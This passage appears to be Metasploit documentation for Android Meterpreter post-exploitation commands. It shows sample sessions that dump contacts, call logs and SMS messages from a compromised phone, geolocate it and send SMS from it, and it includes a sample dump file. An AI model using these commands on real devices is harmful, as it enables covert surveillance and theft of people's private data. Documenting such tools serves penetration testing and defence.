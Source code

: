 **`dump_calllog`**

The `dump_calllog` command retrieves the call log from the Android device.

**`dump_contacts`**

```
    meterpreter > dump_contacts
    [*] Fetching 5 contacts into list
    [*] Contacts list saved to: contacts_dump_20160308155744.txt
```

**`geolocate`**

The `geolocate` commands allows you to locate the phone by retrieving the current lat-long
using geolocation.

**`wlan_geolocate`**

The `wlan_geolocation` command allows you to locate the phone by retrieving the current
lat-long using WLAN information. Example:

```
    meterpreter > wlan_geolocate
    [*] Google indicates the device is within 150 meters of 30.*******,-97.*******.
    [*] Google Maps URL:  https://maps.google.com/?q=30.*******,-97.*******
```

**`send_sms`**

The `send_sms` command allows you to send an SMS message. Keep in mind the phone will keep a
copy of it, too.

```
    meterpreter > send_sms -d "2674554859" -t "hello"
    [+] SMS sent - Transmission successful
```

**`sms_dump`**

The `sms_dump` command allows you to retrieve SMS messages. And save them as a text file.
For example:

```
    meterpreter > dump_sms
    [*] Fetching 4 sms messages
    [*] SMS messages saved to: sms_dump_20160308163212.txt

    ...

    $ cat sms_dump_20160308163212.txt

    =====================
    [+] SMS messages dump
    =====================

    Date: 2016-03-08 15:30:12 -0600
    OS: Android 5.1.1 - Linux 3.10.61-6309174 (aarch64)
    Remote IP: 192.168.1.207
    Remote Port: 59130

    #1
    Type	: Incoming
    Date	: 2016-03-08 15:29:32
    Address	: **********
    Status	: NOT_RECEIVED
    Message	: Hello world

    ...
```


[sdk]: http://developer.android.com/sdk/index.html#Other
[studio]: http://developer.android.com/sdk/installing/index.html?pkg=studio
[genymotion]: https://www.genymotion.com/download/
[avd]: https://github.com/dral3x/AndroidAVDRepo